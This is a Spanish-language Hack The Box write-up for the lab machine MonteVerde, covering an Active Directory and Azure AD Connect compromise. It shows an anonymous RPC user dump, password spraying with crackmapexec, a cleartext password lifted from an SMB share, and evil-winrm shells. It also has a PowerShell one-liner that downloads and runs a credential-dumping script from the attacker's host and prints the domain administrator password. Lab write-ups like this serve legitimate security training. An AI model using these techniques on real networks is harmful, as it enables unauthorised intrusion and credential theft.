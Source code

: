 ```yaml
---
layout: post
title: MonteVerde
date: 2022-11-18
categories: ["HTB", "RPC", "SMB", "Azure"]
thumbnail: "assets/images/MonteVerde.png"
---
```


# MonteVerde [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.172 -oG allPorts`
- `nmap -sCV -p53,88,135,139,389,445,[...],5985,[...] 10.10.10.172 -oN targeted`

Vemos que está el puerto `5985` abierto, pertenece a `WinRM`, pero no tenemos credenciales.

### RPC

Como vemos no hay ningún puerto de servidor web, así que nos tenemos que apañar con l que tenemos, en este caso vemos el puerto `139` abierto, pero cuando tratamos de listar el contenido nos deniega el acceso.

Como tampoco podemos listar el puerto `445` vamos a tratar de conseguir una sesión `RPC` sin credenciales, así que hacemos lo siguiente:

- `rpcclient -U "" -N 10.10.10.172`

Bien! Vemos que obtenemos una conexión! Vamos a desplegar información con el comando
`querydispinfo`. Vemos muchos números, pero también varios nombres de usuario con su respectivo nombre.

```
[...] Account: AAD_987d7f2f57d2 [...]
[...] Account: dgalanos [...]
[...] Account: Guest [...]
[...] Account: mhope [...]
[...] Account: roleary [...]
[...] Account: SABatchJobs [...]
[...] Account: smorgan [...]
[...] Account: svc-ata [...]
[...] Account: svc-bexec [...]
[...] Account: svc-netapp [...]
```

Vamos a copiar todos los nombres de usuario en un archivo, en mi caso llamado `users`. Una vez tenemos el archivo podemos utilizar `CrackMapEXEC` para hacer fuerza bruta. Como sólo tenemos los nombres de usuario y queremos probar algo rápido antes que algo exhaustivo vamos a probar utilizando el nombre de usuario como contraseña.

- `crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success`

```
[...]
SMB 10.10.10.172 445 MONTEVERDE [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
[...]
```

Bien! Hemos obtenido la contraseña de `SABatchJobs` (`SABatchJobs:SABatchJobs`) para `SMB`!

### Shell

Bien, como ya disponemos de credenciales válidas vamos a listar de nuevo `SMB`, pero utilizando las credenciales encontradas. En mi caso utilizaré `SMBMap` ya que directamente me dice qué directorios puedo leer, modificar o no tener acceso.

- `smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJob`

```
[+] IP: 10.10.10.172:445 Name: 10.10.10.
Disk            Permissions       Comment
----            -----------       -------
ADMIN$          NO ACCESS         Remote Admin
azure_uploads   READ ONLY
C$              NO ACCESS         Default share
E$              NO ACCESS         Default share
PC$             READ ONLY         Remote IPC
NETLOGON        READ ONLY         Logon server share
SYSVOL          READ ONLY         Logon server share
users$          READ ONLY
```

Vemos un directorio que nos llama la atención llamado `users$` el cual podemos leer, vamos a ver qué tiene.

- `smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs`

```
smb> get mhope/azure.xml
```

Bien! Tenemos un archivo XML! Vamos a ver qué contiene!

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0">
<T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
<T>System.Object</T>
</TN>

<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<Props>
<DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
<DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
<G N="KeyId">00000000-0000-0000-0000-000000000000</G>
<S N="Password">4n0therD4y@n0th3r$</S>
</Props>
</Obj>
</Objs>
```

Wow! Vemos la contraseña de Azure en texto claro! Ahora para acceder y obtener una Shell vamos a utilizar `WinRM` ya que vimos que el puerto `5985` está abierto.

- `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

```
Info: Starting Evil-WinRM shell v1.

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents>

```

Bien! Ya estamos en la máquina como `mhope`!

### Subida de privilegios

Ahora que ya estamos en la máquina tenemos que tratar de ser administradores, así que
comenzé por enumeración básica, por lo que miraré en los grupos que se encuentra `mhope`.

```
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```

Vemos que se encuentra en el grupo `Azure Admins`, así que después de estar mirando un poco llegué al directorio `C:\Program Files`, donde vemos varias carpetas con el nombre de `Azure`, con `*` podemos filtrar por la cadena que queramos.

```
*Evil-WinRM* PS C:\Program Files> ls *Azure*

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Investigando un poco llegamos a un artículo de [`XPN`](https://blog.xpnsec.com/azuread-connect-for-redteam/). El artículo habla de cómo
explotar `Azure Connect`.

Vemos que `mhope` es capaz de conectarse a la base de datos local (ya que es administrador) y extraer la configuración, después de eso podemos decodearlo y obtener el nombre de usuario y contraseña en texto claro de la cuenta que ha manejado la réplica.

Traté de utilizar el `script` del artículo, pero tenemos que cambiar la variable `client` para hacer que conecte con la `DB`.

```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
```

Una vez tenemos todo listo podemos montarnos un servidor en Python para pasarle el
archivo PS1 y hacer que lo corra, para eso haremos lo siguiente:

- `python3 -m http.server 80`

```
*Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
Bien! Ya tenemos la contraseña de `administrator` (`administrator:d0m@in4dminyeah!`)! Ahora podemos hacer como antes y con `Evil-WinRM` conectarnos como `administrator`.

Enhorabuena! Ya somos administradores de la máquina!